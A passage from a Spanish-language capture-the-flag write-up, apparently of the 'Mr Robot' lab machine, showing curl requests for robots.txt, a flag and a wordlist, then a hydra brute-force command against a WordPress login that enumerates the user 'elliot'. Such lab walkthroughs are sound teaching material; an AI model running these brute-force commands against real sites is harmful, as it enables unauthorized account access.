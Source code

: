 ```bash
❯ curl -s "http://10.10.235.157/robots.txt"
User-agent: *
fsocity.dic
key-1-of-3.txt
```
¡Tenemos al parecer nuestra primera flag!, nuevamente con la utilidad `curl` vamos a realizar la petición para el recurso **key-1-of-3.txt**

```bash
❯ curl -s "http://10.10.235.157/key-1-of-3.txt" > flag1.txt | head -c 10
073403c8a5%
```

¡Excelente, tenemos la flag! Como bien saben solo mostraremos los primeros 10 caracteres.

Vamos a extraer el otro recurso que encontramos, el cual parece ser un dicionario, luego de la extracción, vamos a organizarlo y eliminar registros que pueda tener duplicados, como se pueden dar cuenta, el archivo sin duplicados se reduce considerablemente respecto al original.

```bash
❯ curl -s "http://10.10.235.157/fsocity.dic" > fsocity.dic
❯ sort -u fsocity.dic > sortfsocity.dic
❯ wc -l fsocity.dic sortfsocity.dic
 858160 fsocity.dic
  11451 sortfsocity.dic
 869611 total
```

## EXPLOTACIÓN

Vamos a explorar la ruta wp-login, la cual muestra un panel de loggeo en un gestor de contenido como lo es **Wordpress**.

 <p style="text-align: center;">
  <img src="/assets/images/mrrobot/02login.png">
 </p>

Vamos a realizar un ataque de fuerza bruta por la utilidad `hydra`, pero antes de esto es necesario capturar la petición con `burpsuite`, para poder obtener los campos de usuario y contraseña que usaremos en nuestro ataque de fuerza bruta.

 <p style="text-align: center;">
  <img src="/assets/images/mrrobot/03burp.png">
 </p>
  
Ya tenemos los campos identificados, ahora si vamos a realizar nuestro primer ataque de fuerza bruta para detectar que usuarios son válidos en el login.

```bash
❯ hydra -L sortfsocity.dic -p test 10.10.235.157 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 64
[80][http-post-form] host: 10.10.235.157   login: elliot   password: test
```

<p style="text-align: center;">  
 <img src="/assets/images/mrrobot/04hydra1.png">    
</p>  
